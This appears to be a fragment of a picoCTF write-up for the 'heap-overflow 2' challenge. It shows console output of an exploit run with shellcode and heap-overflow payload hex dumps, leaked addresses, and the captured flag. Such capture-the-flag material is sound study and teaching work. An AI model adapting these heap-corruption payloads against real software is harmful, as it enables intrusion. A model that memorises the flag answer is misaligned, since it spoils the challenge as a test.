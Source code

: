 ```console
[*] Closed SSH channel with 2019shell1.picoctf.com
[*] Working directory: '/problems/heap-overflow_2_de0f6daa62288c9b3afb950888dc7166'
[+] Starting remote process '/problems/heap-overflow_2_de0f6daa62288c9b3afb950888dc7166/vuln' on 2019shell1.picoctf.com:
 pid 3532938
[*] Address of fullname: 0x99e9008
[*] Address of win(): 0x8048936
[*] shellcode:
    00000000  eb 0c 90 90  90 90 90 90  90 90 90 90  90 90 68 36  │····│····│····│··h6│
    00000010  89 04 08 c3                                         │····││
    00000014
[*] payload:
    00000000  eb 0c 90 90  90 90 90 90  90 90 90 90  90 90 68 36  │····│····│····│··h6│
    00000010  89 04 08 c3  42 42 42 42  42 42 42 42  42 42 42 42  │····│BBBB│BBBB│BBBB│
    00000020  42 42 42 42  42 42 42 42  42 42 42 42  42 42 42 42  │BBBB│BBBB│BBBB│BBBB│
    *
    00000290  42 42 42 42  42 42 42 42  64 00 00 00  fc ff ff ff  │BBBB│BBBB│d···│····│
    000002a0  1c d0 04 08  08 90 9e 09                            │····│····││
    000002a8
[+] Receiving all data: Done (33B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 3532938)

picoCTF{a_s1mpl3_h3ap_5e4b54d4}
```